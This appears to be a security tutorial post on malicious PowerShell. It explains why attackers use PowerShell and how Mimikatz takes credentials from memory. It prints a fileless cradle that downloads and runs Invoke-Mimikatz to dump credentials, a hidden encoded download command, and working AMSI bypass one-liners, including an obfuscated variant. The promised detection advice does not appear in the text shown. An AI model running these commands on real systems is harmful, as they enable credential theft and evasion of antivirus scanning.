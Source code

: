 
# Malicious Powershell 
In this series, I'll discuss why organizations should care about malicious Powershell activity, how the attackers use Powershell to steal credential(e.g.,Mimikatz) and how to prevent and detect malicious Powershell activity.

## Why do attackers love Powershell ?
PowerShell, a powerful Windows scripting language, is used by IT professionals and adversaries alike. Attackers favor PowerShell for several reasons:

- It's build-in command line tool.
- It can download and execute code from another system.
- It provides unprecedented access on Windows computers
- It’s enabled on most computers, as system administrators use PowerShell to automate various tasks (e.g,. shut down your machines automatically at 12 a.m.—do this via task scheduler)
- Its malicious use is often not stopped or detected by traditional endpoint defenses, as files and commands are not written to disk. This means fewer artifacts to recover for forensic analysis.

Several offensive tools exist that are built on or use PowerShell, including the following:
- [Empire](https://github.com/EmpireProject/Empire)
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
- [Metasploit](https://www.rapid7.com/db/modules/post/windows/manage/exec_powershell/)
- [Invoke-Mimikatz](https://github.com/clymb3r/PowerShell/tree/master/Invoke-Mimikatz)

Eliminating Powershell isn't ideal due to the benifits it offers IT administrators. Instead, we need to learn how to secure Powershell.

Let's take a deep dive into Powershell usage to dump password with Mimikatz.

## What is Mimikatz, and how does it work?
Mimikatz is a post-exploitation tool used to dump passwords, hashes, and Kerberos tickets from memory. Attackers use Mimikatz to steal credentials and escalate their privileges; similarly, pen testers use Mimikatz to retrieve plaintext versions of passwords from hashes stored in memory (these exist to provide Windows single sign-on (SSO) functionality). It enables many attacks that use credentials such as pass the hash, pass the ticket, golden Kerberos ticket, and so on. 

In order to facilitate SSO, whenever a user authenticates, a variety of credentials are generated and stored in LSASS memory. The credentials stored in LSASS memory can be NTLM password hashes, Kerberos tickets, and even clear-text passwords when using the Windows feature WDigest. WDigest, introduced with Windows XP, is an authentication protocol used for LDAP and web-based authentication. Client machines that seek to authenticate must demonstrate their knowledge of secret keys. This improves on earlier versions of HTTP authentication where the user provides a password that is not encrypted when sent to authenticating server. As WDigest stores cleartext passwords in memory, if an attacker has control over that endpoint, they can run Mimikatz to steal hashes and clear text passwords.

Mimikatz was most famously used in the Petya and NotPetya attacks that affected thousands of computers worldwide between 2016 and 2017. The NotPetya virus, similar to Petya, infects a target computer, encrypts the data on the computers and displays a message for the victim explaining how to send bitcoin in order to retrieve the encrypted data.

Let's look at a malicious PowerShell command for fileless network access and remote content execution. This command passes the contents of the file hosted on the below URL to PowerShell via the commandline, and executes it "in memory" on the target system:

    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
    
where:
- IEX or Invoke-Expression cmdlet: executes the command provided on the local machine.
- New-Object cmdlet: creates an instance of a .NET Framework
- downloadstring: download the contents from Github into a memory buffer, which IEX will execute
- DumpCreds parameter: instructs Mimikatz to dump credentials out of LSASS.  


---

      powershell.exe -Noprofile -NonI -W Hidden -Exec Bypass -encodedcommand  SUVYICgobmV3LW9iamVjdCBuZXQud2ViY2xpZW50KS5kb3dubG9hZHN0cmluZygnaHR0cHM6Ly93d3cuZmlyZWV5ZS5jb20vY29tcGFueS9qb2JzLmh0bWwnKSk=

The following is a quick explanation of the arguments:
- -NoProfile – indicates that the current user’s profile setup script should not be executed when the PowerShell engine starts.
- -NonI – shorthand for -NonInteractive, meaning an interactive prompt to the user will not be presented.
- -W Hidden – shorthand for “-WindowStyle Hidden”, which indicates that the PowerShell session window should be started in a hidden manner.
- -Exec Bypass – shorthand for “-ExecutionPolicy Bypass”, which disables the execution policy for the current PowerShell session (default disallows execution). It should be noted that the Execution Policy isn’t meant to be a security boundary.
- -encodedcommand – indicates the following chunk of text is a base64 encoded command.

--- 
Check version of powershell 
        
        $PSVersionTable

| Name                           | Value                      |
|:------------------------------:|:--------------------------:|                         
| PSVersion                      | 5.1.19041.1682             |
| PSEdition                      | Desktop                    |
| PSCompatibleVersions           | {1.0, 2.0, 3.0, 4.0...}    |
| BuildVersion                   | 10.0.19041.1682            |
| CLRVersion                     | 4.0.30319.42000            |
| WSManStackVersion              | 3.0                        |
| PSRemotingProtocolVersion      |2.3                         |
| SerializationVersion           | 1.1.0.1                    |  

# AMSI bypass methods
## How AMSI work.
When a user executes a script or initiates PowerShell, the AMSI.dll is injected into the process memory space. Prior to execution the following two API’s are used by the antivirus to scan the buffer and strings for signs of malware.
- AmsiScanBuffer()
- AmsiScanString()

![AMSI work](https://pentestlaboratories.files.wordpress.com/2021/05/amsi-powershell-flowchart-1.png?w=1024)

1. PowerShell Downgrade
        
        powershell -version 2
2. Base64 Encode 
- original AMSI bypass

        [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
- Base64 Encode
        
        [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
